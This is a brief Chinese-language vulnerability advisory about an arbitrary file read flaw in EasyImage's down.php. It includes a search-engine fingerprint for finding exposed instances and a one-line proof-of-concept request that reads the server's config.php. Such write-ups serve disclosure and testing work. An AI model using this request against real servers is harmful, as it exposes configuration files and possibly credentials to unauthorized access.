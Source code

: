 # EasyImage down.php 任意文件读取漏洞

## 漏洞描述

EasyImage down.php 文件存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
EasyImage
```

## 网络测绘

```
app="EasyImage-简单图床"
```

## 漏洞复现

主页面

![image-20230417094057151](images/image-20230417094057151.png)

验证POC

```
/application/down.php?dw=./config/config.php
```

![image-20230417094115549](images/image-20230417094115549.png)